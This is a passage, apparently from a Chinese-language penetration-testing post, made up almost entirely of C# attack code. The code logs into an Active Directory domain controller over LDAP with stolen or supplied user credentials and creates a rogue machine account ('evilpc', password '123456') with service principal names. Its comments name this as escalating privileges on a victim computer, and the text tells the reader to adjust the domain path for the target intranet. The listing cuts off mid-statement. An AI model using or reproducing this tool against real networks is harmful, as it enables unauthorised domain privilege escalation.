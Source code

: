 第十九行需要改一下，将DC=hack,DC=local改为内网对应的域

 

```
using System;
using System.Text;
using System.Security.AccessControl;
using System.Security.Principal;
using System.Net;
namespace Addnew_MachineAccount
{
    class Program
    {
        static void Main(string[] args)
        {
            String DomainController = args[0];  // 域控IP
            String Domain = args[1];   // hack.local
            String username = args[2]; //域用户名
            String password = args[3]; //域用户密码
            String victimcomputer = args[4]; //需要进行提权的机器
            String new_MachineAccount = "evilpc"; //添加的机器账户
            String new_MachineAccount_password = "123456"; //机器账户密码
            String victimcomputer_ldap_path = "LDAP://CN=" + victimcomputer + ", CN=Computers,DC=hack,DC=local"; // 这里也需要改
            String machine_account = new_MachineAccount;
            String sam_account = machine_account + "$";
            String distinguished_name = "";
            String[] DC_array = null;
            distinguished_name = "CN=" + machine_account + ",CN=Computers";
            DC_array = Domain.Split('.');
            foreach (String DC in DC_array)
            {
                distinguished_name += ",DC=" + DC;
            }
            Console.WriteLine("[+] Elevate permissions on " + victimcomputer);
            Console.WriteLine("[+] Domain = " + Domain);
            Console.WriteLine("[+] Domain Controller = " + DomainController);
            //Console.WriteLine("[+] New SAMAccountName = " + sam_account);
            //Console.WriteLine("[+] Distinguished Name = " + distinguished_name);
            //连接ldap
            System.DirectoryServices.Protocols.LdapDirectoryIdentifier identifier = new System.DirectoryServices.Protocols.LdapDirectoryIdentifier(DomainController, 389);
            NetworkCredential nc = new NetworkCredential(username, password); //使用凭据登录
            System.DirectoryServices.Protocols.LdapConnection connection = null;
            connection = new System.DirectoryServices.Protocols.LdapConnection(identifier, nc);
            //connection = new System.DirectoryServices.Protocols.LdapConnection(identifier);
            connection.SessionOptions.Sealing = true;
            connection.SessionOptions.Signing = true;
            connection.Bind();
            var request = new System.DirectoryServices.Protocols.AddRequest(distinguished_name, new System.DirectoryServices.Protocols.DirectoryAttribute[] {
                new System.DirectoryServices.Protocols.DirectoryAttribute("DnsHostName", machine_account +"."+ Domain),
                new System.DirectoryServices.Protocols.DirectoryAttribute("SamAccountName", sam_account),
                new System.DirectoryServices.Protocols.DirectoryAttribute("userAccountControl", "4096"),
                new System.DirectoryServices.Protocols.DirectoryAttribute("unicodePwd", Encoding.Unicode.GetBytes("\"" + new_MachineAccount_password + "\"")),
                new System.DirectoryServices.Protocols.DirectoryAttribute("objectClass", "Computer"),
                new System.DirectoryServices.Protocols.DirectoryAttribute("ServicePrincipalName", "HOST/"+machine_account+"."+Domain,"RestrictedKrbHost/"+machine_account+"."+Domain,"HOST/"+machine_account,"RestrictedKrbHost/"+machine_account)
```